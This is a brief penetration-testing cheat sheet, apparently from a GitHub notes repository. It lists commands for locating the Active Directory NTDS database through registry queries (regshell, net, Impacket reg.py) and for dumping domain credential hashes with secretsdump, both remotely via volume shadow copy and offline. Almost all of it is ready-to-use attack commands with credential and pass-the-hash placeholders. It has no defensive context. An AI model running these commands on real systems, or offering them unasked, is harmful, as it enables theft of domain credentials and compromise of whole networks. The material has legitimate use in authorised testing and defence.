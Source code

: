 # Unix Shell

## 01 - Enumerate Registry Files

### 1.1 - `regshell`

Authentication syntax.

```
$ regshell -U "[<domain>/]<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>
```

```
cd "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

### 1.2 - NetCommands

```
$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

### 1.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

## 02 - Extract Shadow File

TODO: Demonstrate using smbclient to download hashes

`$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local`

```
$ secretsdump.py -use-vss "[<domain>/]<username>":"<password>"@<IP>

$ secretsdump.py -use-vss "[<domain>/]<username>"@<IP> -hashes :<nt_hash>
```